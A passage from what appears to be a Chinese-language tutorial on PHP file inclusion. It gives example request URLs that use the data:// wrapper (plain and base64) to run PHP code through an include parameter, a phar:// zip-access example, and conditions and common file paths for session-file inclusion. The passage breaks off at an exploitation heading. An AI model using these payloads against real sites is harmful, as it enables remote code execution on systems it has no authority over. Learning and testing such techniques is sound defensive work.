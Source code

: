 #### data://

**条件：**

allow_url_fopen:on

allow_url_include :on

**作用：**

自`PHP>=5.2.0`起，可以使用 `data://` 数据流封装器，以传递相应格式的数据。

通常可以用来执行PHP代码

**示例：**

```php
#1.data://text/plain,
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>

#2.data://text/plain;base64,
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

#### phar://

phar://协议与zip://类似，同样可以访问zip格式压缩包内容

```php
http://127.0.0.1/include.php?file=phar://C:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt
```

**利用条件 `PHP > 5.3`**

要想使用Phar类里的方法，必须将`phar.readonly`配置项配置为0或Off

利用 phar 协议可以拓展 php 反序列化漏洞攻击面

### SESSION文件包含

当`PHP Version>5.4`在默认情况下，可以利用到`PHP_SESSION_UPLOAD_PROGRESS`来初始化`session`，并且会把上传文件的信息记录在`session`文件中，待上传文件结束后清除存储上传文件信息`session`文件。

**条件:**

要求 Session存储位置已知 Session文件内容可控

**常见sess存放位置:**

```sh
/var/lib/php/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```

**命名规则:**

session 的文件名格式为 sess_[phpsessid]。而 phpsessid 在发送的请求的 cookie['PHPSESSID'] 字段中可以看到

**利用**
